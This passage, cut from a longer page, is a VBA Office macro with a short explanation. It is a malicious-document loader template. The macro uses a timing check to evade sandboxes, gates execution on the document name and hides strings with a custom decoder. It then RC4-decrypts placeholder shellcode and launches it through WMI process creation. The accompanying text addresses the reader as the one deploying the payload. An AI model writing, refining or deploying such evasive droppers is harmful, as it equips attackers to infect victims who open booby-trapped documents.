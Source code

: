 ```vba
    Next
    
    RC4 = output
End Function

Function MyMacro()
    Dim Apples As String
    Dim Leap As String
    Dim t1 As Date
    Dim t2 As Date
    Dim time As Long
    t1 = Now()
    Sleep (5000)
    t2 = Now()
    time = DateDiff("s", t1, t2)
    If time < 4.5 Then
        Exit Function
    End If

    ' Check if the document name matches the expected name
    If ActiveDocument.Name <> Yellow("109124124058112123111121") Then
        Exit Function
    End If

    ' RC4 encrypted shellcode (This should be your encrypted shellcode)
    Dim EncShellcode As String
    EncShellcode = "RC4_ENCRYPTED_SHELLCODE_HERE"

    ' RC4 decryption key (This should be your encryption key)
    Dim Key As String
    Key = "YOUR_RC4_KEY_HERE"

    ' Decrypt the shellcode
    Leap = RC4(Key, EncShellcode)

    ' Execute the decrypted shellcode via WMI
    GetObject(Yellow("131117122121115121128127070")).Get(Yellow("099117122063062107092126123111113127127")).Create Leap, Tea, Coffee, Napkin
End Function
```

### Explanation

1. **RC4 Function**:
   - The `RC4` function takes the encrypted data and a key as input and returns the decrypted string.
   - The RC4 algorithm is implemented as a key-scheduling algorithm (KSA) and pseudo-random generation algorithm (PRGA).

2. **Shellcode**:
   - `EncShellcode`: This is the RC4-encrypted shellcode you want to decrypt and execute.
   - `Key`: This is the key used to decrypt the shellcode. Ensure that the key matches the one used during encryption.
